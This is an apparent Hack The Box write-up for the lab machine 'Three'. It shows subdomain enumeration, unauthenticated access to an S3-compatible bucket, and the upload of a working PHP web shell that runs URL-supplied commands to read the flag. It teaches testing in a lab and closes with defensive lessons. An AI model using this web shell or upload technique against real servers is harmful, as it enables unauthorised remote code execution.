









# ⭐ Three – Hack The Box Write-up ⭐

---

## Machine Info

| Property | Value |
|--------|-------|
| **Difficulty** | Easy |
| **OS** | Linux |
| **IP** | 10.129.x.x |
| **Category** | Starting Point (Tier 0) |
| **Tags** | AWS S3, Subdomain Enumeration, RCE, Misconfiguration |

---

## Overview

In this lab, we exploit a misconfigured Amazon S3-compatible service exposed through a discovered subdomain.  
By enumerating the S3 bucket, we identify that it allows unauthenticated file uploads.  
Uploading a malicious PHP file results in **remote code execution (RCE)** on the web server, allowing us to enumerate the filesystem and retrieve the flag.

This machine belongs to **Hack The Box – Starting Point (Tier 1)** and introduces fundamental concepts such as:

- Subdomain enumeration  
- Amazon S3 bucket interaction  
- Cloud storage misconfigurations  
- Remote Code Execution (RCE)  
- Linux filesystem enumeration  

---

## Key Steps
Network & Service Enumeration

MITRE ATT&CK: **T1046 – Network Service Discovery**
OWASP Top 10: **A05:2021 – Security Misconfiguration**

Subdomain Enumeration

MITRE ATT&CK: **T1583.002 – Acquire Infrastructure: Domains**
OWASP Top 10: **A05:2021 – Security Misconfiguration**

Discovering an Exposed S3-Compatible Service

MITRE ATT&CK: **T1087 – Account Discovery**
OWASP Top 10: **A02:2021 – Cryptographic Failures**

Unauthorized Access to S3 Bucket

MITRE ATT&CK: **T1530 – Data from Cloud Storage Object**
OWASP Top 10: **A05:2021 – Security Misconfiguration**

Remote Code Execution via File Upload

MITRE ATT&CK: **T1105 – Ingress Tool Transfer**
OWASP Top 10: **A03:2021 – Injection**

Post-Exploitation Enumeration & Flag Retrieval

MITRE ATT&CK: **T1083 – File and Directory Discovery**
OWASP Top 10: **A01:2021 – Broken Access Control**

---

## Attack Flow Summary

1. Network & service enumeration  
2. Subdomain discovery (`s3.thetoppers.htb`)  
3. Identification of exposed S3-compatible service  
4. Unauthorized access to S3 bucket  
5. Malicious PHP file upload  
6. Remote command execution  
7. Flag retrieval  

---
## Connectivity Check

Before enumeration, we verified connectivity to the target machine:

<pre>ping 10.129.x.x</pre>

The host responded successfully, confirming network reachability.
Furthermore, we observe that ttl = 63

- This value (close to 64) indicates that we are dealing with a **Linux** machine.

> By default, TTL values ​​around 64 indicate that the machine is Linux, while values ​​of 128 would indicate that the machine is Windows.

>

## Enumeration

### Port Scanning

<pre>sudo nmap -sS 10.129.x.x</pre>

As we can see, there are two open TCP ports. Port 80 indicates that we can connect using a browser to see if there is a website running on this port.

## Adding the hostname
From the previous scan, we know that we can connect to the server with our browser. When we visit http://10.129.X.X, a web page appears:

Then, navigating to the “Contact” page, we see an email address with the domain “thetoppers.htb”:

Since no DNS server is provided, we manually resolved the domain:
<pre>sudo nano /etc/hosts</pre>

Added:

<pre>10.129.x.x thetoppers.htb</pre>

## Subdomain Enumeration
Using Gobuster, we enumerated virtual hosts:
<pre>gobuster vhost -w /home/kali/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb --append-domain</pre>

**Note:** My dictionary is located in a different path than usual. It's typically located in /usr/share/wordlists/, resulting in the following command: gobuster vhost -w /home/kali/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u [http://thetoppers.htb](http://thetoppers.htb/) --append-domain

**Discovered subdomain:**

<pre>s3.thetoppers.htb</pre>

After adding it to /etc/hosts, we accessed:

<pre>http://s3.thetoppers.htb</pre>

This revealed an Amazon S3-compatible service.

**About AWS S3:** S3 buckets are used for cloud storage. Interaction: Via awscli (apt install awscli)

## Exploitation – AWS S3 Misconfiguration

Installing and Configuring AWS CLI

<pre>sudo apt install awscli</pre>

After the installation, We run `aws configure` and provide any value for the configuration; in my case, I filled in all the required fields with `test`.

<pre> aws configure</pre>

Dummy credentials were accepted, indicating no authentication enforcement.

**Enumerating Buckets**
We search for the list of available S3 Buckets for our endpoint using the following command:

<pre>aws --endpoint=http://s3.thetoppers.htb s3 ls</pre>

Discovered bucket:

thetoppers.htb

To access the available Bucket (thetoppers.htb) we will run the following command:

<pre>aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb</pre>

Revealed:

index.php

.htaccess

images/

This confirms that the S3 bucket backs the web application, PHP is running the website and 'images' is hosting the images displayed on the website. 

## Exploitation: Remote Code Execution via File Upload
So far, we know:
- The S3 bucket is **public**
- You can **list** and **upload files**
- The bucket is the **actual backend** of the website
- If you upload a PHP file **it executes on the server**
- This might gives us **RCE** → remote command execution → **flag**

**1.- We created a file called shell.php:**
<pre>nano shell.php</pre>

We write the following content:
<pre><?php
if(isset($_GET['cmd'])){
system($_GET['cmd']);
}
?></pre>

This allows us to execute commands by passing ?cmd=COMMAND in the URL.

**2.- Upload the webshell to the S3 bucket**

<pre>aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb/shell.php

upload: ./shell.php to s3://thetoppers.htb/shell.php</pre>

**3.-Accessing it via browser allowed command execution:**

<pre>http://thetoppers.htb/shell.php?cmd=whoami</pre>

Result:

<pre>www-data</pre>

This confirms successful RCE.

## Post-Exploitation & Flag

Listing the parent directory:

<pre>http://thetoppers.htb/shell.php?cmd=ls</pre>

Revealed:

<pre>flag.txt
html</pre>

We move up a directory and find the flag.txt

<pre>http://thetoppers.htb/shell.php?cmd=ls .. </pre>

Reading the flag:
With this last command we obtain our flag
<pre>http://thetoppers.htb/shell.php?cmd=cat ../flag.txt</pre>

**NOTE: Some writeups use a Netcat reverse shell at this stage.  
In this case, direct command execution via the web shell was enough, so a reverse shell was not necessary.**

✅ Flag successfully retrieved

## Conclusion

This machine demonstrates how a simple cloud storage misconfiguration can lead to full compromise when combined with:

Exposed S3-compatible services

Lack of authentication controls

Direct integration between cloud storage and web root

## Key Lessons

Never expose cloud storage without authentication

Separate application code from upload locations

Disable script execution in upload directories

Apply least-privilege access to cloud services

## Key Takeaways

Misconfigured S3 buckets can allow arbitrary file uploads

Uploaded scripts may be executed by the web server

RCE does not always require credentials

Cloud misconfigurations are a common real-world attack vector

## Tools Used
| Category | Tools |
|----------|-------|
| **Reconnaissance** | ping, nmap, browser |
|**Enumeration** | nmap, Manual Web Enumeration, Gobuster |
|**Cloud Interaction** | awscli |
| **Exploitation** | PHP Web Shell, S3 File Upload|
| **Post-Exploitation** | Linux commands (ls, cat) |

## ⚠️ Disclaimer

This writeup is for educational purposes only.

The techniques described here were performed in a controlled laboratory environment provided by Hack The Box.

Do not attempt to use these methods on systems you do not own or have explicit permission to test.

This writeup complies with the Hack The Box Terms of Service and documents only Starting Point / retired content.

